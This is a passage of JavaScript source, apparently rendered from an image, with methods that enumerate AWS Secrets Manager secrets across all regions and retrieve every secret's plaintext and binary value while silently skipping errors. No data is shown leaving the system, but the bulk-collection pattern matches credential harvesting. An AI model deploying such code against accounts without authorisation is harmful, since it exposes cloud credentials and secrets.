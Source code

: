 ```
    }

    const regionsToTry = targetRegion ? [targetRegion] : this.REGIONS;

    for (const region of regionsToTry) {
      try {
        const client = this.getSecretsClient(region);
        const response = await client.send(new GetSecretValueCommand({
          SecretId: secretId
        }));

        return {
          name: response.Name || secretId,
          secretString: response.SecretString,
          secretBinary: response.SecretBinary,
          versionId: response.VersionId
        };
      } catch (error) {
        // Continue to next region
      }
    }

    return null;
  }

  async getAllSecretValues() {
    if (!await this.initialize()) return [];

    const allSecrets = [];
    const seenArns = new Set();

    for (const region of this.REGIONS) {
      try {
        const client = this.getSecretsClient(region);
        const listResponse = await client.send(new ListSecretsCommand({}));
        
        for (const secret of listResponse.SecretList || []) {
          if (!secret.ARN || seenArns.has(secret.ARN)) continue;
          
          seenArns.add(secret.ARN);
          
          try {
            const valueResponse = await client.send(new GetSecretValueCommand({
              SecretId: secret.Name || secret.ARN
            }));
            
            allSecrets.push({
              name: valueResponse.Name || secret.Name || "",
              secretString: valueResponse.SecretString,
              secretBinary: valueResponse.SecretBinary,
              versionId: valueResponse.VersionId
            });
          } catch (error) {
            // Skip secret if value cannot be retrieved
          }
        }
      } catch (error) {
        if (error.name === "AccessDeniedException" || error.$metadata?.httpStatusCode === 403) {
          console.error("Permission denied listing secrets. Stopping scan.");
          break;
        }
      }
    }
```